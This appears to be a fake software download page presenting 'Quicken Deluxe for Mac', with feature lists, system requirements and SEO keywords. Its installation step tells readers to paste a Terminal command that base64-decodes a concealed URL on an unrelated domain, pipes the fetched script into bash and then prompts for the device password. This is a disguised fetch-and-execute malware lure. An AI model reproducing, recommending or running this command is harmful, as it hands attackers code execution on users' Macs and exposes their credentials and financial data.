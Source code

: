 # 📒 Quicken Deluxe for Mac — Smarter Budgeting & Financial Planning

📌 About Quicken Deluxe  
Quicken Deluxe for macOS is a comprehensive personal finance solution designed to help individuals and families take control of their money. It allows you to set up budgets, categorize expenses, track bills, monitor accounts, and forecast long-term goals — all in one unified interface.  
It supports secure connections to banks and credit card institutions, or lets you manage finances fully offline. Quicken's reporting tools make it easy to visualize spending patterns, net worth, and debt progress, helping users make smarter financial decisions.  
Built natively for macOS, it offers smooth performance, dark mode compatibility, and responsive layouts — while keeping your financial data private and encrypted on your machine.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.quicken.com/sites/default/files/hero-image-mac.png)  
- ![](https://images.ctfassets.net/hfxittkcm76w/6nrTpqOiXtecRxMpwOjJdf/f965d3bfdd6bcfddac25993c8c62a25c/ComparePage-Hero.png?fm=webp)
## 🎯 Key Features  
⚡️ Budget Manager: Set monthly budgets and monitor real-time progress.  
🔒 Encrypted Local Data: Financial data stays on-device with full encryption.  
⚙️ Bill Tracker: Get alerts for due dates and schedule future payments.  
🚀 Fast Reconciliation: Automatically match transactions and account balances.  
🎨 macOS Native UI: Supports dark mode and high-resolution Retina displays.  
📊 Custom Reports: Generate summaries for net worth, spending, income, and debt.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`quicken deluxe mac` · `mac personal finance software` · `budget tracker macos` · `mac money manager` · `mac investment planner` · `mac retirement planning` · `offline budgeting mac` · `quicken bill manager` · `encrypted finance app mac` · `mac banking tracker` · `expense categorization mac` · `mac net worth reports` · `macos debt tracking` · `mac wealth dashboard` · `quicken dark mode mac`

